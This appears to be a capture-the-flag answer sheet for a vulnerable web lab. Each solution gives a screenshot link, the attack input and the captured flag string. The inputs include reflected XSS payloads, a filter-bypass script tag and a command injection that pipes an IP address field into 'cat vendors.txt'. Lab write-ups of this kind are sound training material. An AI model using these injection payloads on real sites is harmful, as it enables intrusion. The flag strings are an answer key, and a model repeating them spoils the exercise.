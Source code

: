 ## Intermediate

### Flag 6: LFI (advanced)

![image](https://github.com/user-attachments/assets/336f1e66-981e-4129-a1e5-c169115de596)
</br>
```shell
ld8skd62hdd
```

### Flag 11:

![image](https://github.com/user-attachments/assets/faa9d0d2-6636-421c-bc07-be95f748ce7b)
</br>
```shell
192.168.14.35 | cat vendors.txt

opshdkasy78s
```

### Flag 2: 

![image](https://github.com/user-attachments/assets/9782ef65-3f2f-4a82-8712-d2fc3a291348)
</br>
```shell
<SCscriptRIPT>alert('flag2')</SCscriptRIPT>

ksdnd99dkas
```

## Easy

### Flag 1: Reflected XSS Payload
![image](https://github.com/user-attachments/assets/601b11ff-c6cb-4bb2-9c31-2e3363eadaea)
</br>
```shell
<script>alert('flag1')</script>

f76sdfkg6sjf
```

### Flag 3: Access the Comments.php page and make a pop-up appear
![image](https://github.com/user-attachments/assets/def2ee3e-d1a6-4b29-8adb-888c0b5e2abb)
</br>
```shell
<script>alert('flag3')</script>

sd7fk1nctx
```
